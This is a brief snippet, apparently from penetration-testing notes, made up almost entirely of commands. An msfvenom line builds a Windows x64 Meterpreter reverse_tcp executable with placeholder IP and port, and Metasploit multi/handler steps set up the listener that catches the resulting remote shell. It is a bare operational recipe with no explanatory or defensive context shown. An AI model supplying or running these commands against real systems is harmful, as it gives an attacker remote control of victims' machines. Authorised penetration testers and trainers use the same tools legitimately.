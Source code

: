 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -a x64 -o /root/Desktop/<filename>.exe

* Enter, use exploit/multi/handler

* Enter, set PAYLOAD windows/x64/meterpreter/reverse_tcp

* Enter, set LHOST <IP>

* Enter, set LPORT 4444

* Enter, run
